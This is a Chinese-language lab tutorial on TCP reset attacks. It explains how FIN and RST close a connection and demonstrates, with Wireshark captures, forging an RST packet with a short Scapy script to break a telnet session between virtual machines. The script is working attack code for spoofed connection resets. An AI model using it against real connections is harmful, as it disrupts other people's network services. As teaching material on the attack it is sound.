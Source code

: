 # TCP复位攻击

TCP复位攻击的目标是破坏两个主机之间已存在的连接。

## 关闭TCP连接

方式一：  
1、A没有更多数据传给B时，发送FIN包给B  
2、B收到后，回复ACK包，A到B的连接就关闭了，但B到A连接依旧保持  
3、如果B也要关闭到A的连接，发送FIN，A回复ACK，就关闭  

方式二：  
只需发送RST包，连接立刻中断，主要用在没有时间或者无法使用FIN协议的紧急情况。  
比如发现SYN泛洪攻击。  

## TCP复位攻击的条件

假冒的方式发送RST包来中断连接，叫TCP复位攻击。  
要成功实现攻击，要正确设置：  
1、源和目的IP地址、端口号  
2、序列号  

!!! Note

    把攻击者和受害者放在同一个网络，可以降低猜测序列号的难度
    
## telnet连接中的TCP复位攻击

1、客户端telnet到服务端  
![telnet到服务端](../img/tcp-client-telnet.png)

2、确定需要设置的参数    
找到和虚拟机同网段的网卡是vmnet8  
![找到和虚拟机同网络的网卡](../img/tcp-netcard.png)

设置监听的网卡：  
![设置wireshark](../img/tcp-wireshark-set.png)

客户端运行简单的ls命令
![客户端命令](../img/tcp-client-ls.png)

Wireshark上抓到服务端发给客户端的包：
![抓到包](../img/tcp-wireshark-package.png)

!!! 安装wireshark

    https://www.wireshark.org/download.html
    
可以看到源端口号23，目标端口号40482，下一个序列号2445021732

3、宿主机发动复位攻击

```python
#!/usr/bin/python
import sys
from scapy.all import *

print("SENDING RESET PACKET.....")
IPLayer = IP(src="192.168.230.150", dst="192.168.230.151")
TCPLayer = TCP(sport=23, dport=40482, flags="R", seq=2445021732)
pkt = IPLayer/TCPLayer
ls(pkt)
send(pkt, verbose=0)
```

4、可以看到客户端telnet被断开
![客户端被断开](../img/tcp-client-broker.png)

!!! warning

    wireshark中找序列号容易出错，一定要找最后一行服务端发给客户端的包  
    